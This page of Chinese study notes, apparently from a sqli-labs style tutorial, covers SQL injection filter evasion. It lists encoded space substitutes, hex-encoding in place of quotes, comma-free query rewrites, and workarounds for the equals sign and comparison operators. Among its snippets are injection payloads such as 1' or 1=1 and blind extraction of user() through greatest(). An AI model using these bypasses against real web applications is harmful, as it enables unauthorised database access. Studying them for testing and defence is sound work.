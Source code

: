 #### (4). SQL语句变形

###### ①空格被过滤

| 符号 | 替换内容               |
| ---- | ---------------------- |
| 空格 | %20  (标准空格)        |
| 空格 | %09  (tab键，水平)     |
| 空格 | **%0a  (换行符)**      |
| 空格 | %a0  (不间断空格)      |
| 空格 | **%0b  (tab键，垂直)** |
| 空格 | %0c  (新的一页)        |

###### ②单引号被过滤

* 将字符转换为16进制，不使用单引号

  ```
  	select * from users where username='Dumb'
  =>	select * from users where username=0x44756d62
  ```

###### ③逗号被过滤

```
1. from to
	select substr(database(),1,1);
	=> select substr(database() from 1 to 1);
2. join
	select 1,2,3
	=> select * from (select 1)a join (select 2)b join (select 3)c
3. offset
	select * from users limit 0,1;
	=> select * from users limit 1 offset 0;
```

###### ④逻辑判断符被过滤

```
1. 等于号(=)绕过
	①1' or 1=1  =>  1' or 1<>1
	②1' or 1=1  =>  1' or 1 like 1a
2. 单个比较符的绕过
	①sqlmap可以使用between脚本，用greatest()返回给定表达式中最大值，least()返回给定表达式中最小值
		select * from users where id=1 and ascii(substr(user(),1,1))>100
		=> select * from users where id=1 and greatest(ascii(substr(user(),1,1)),100)=100
	②使用字符编码
		a. 实体编码   < => &lt;   > =>  &gt;
		b. ASCII码	< => %3C	> =>  %3E 
		c. Unicode编码	< => \u003C   > =>  \u003E
	③使用替代函数
		<  => CHAR(60)   >  =>  CHAR(62)
```
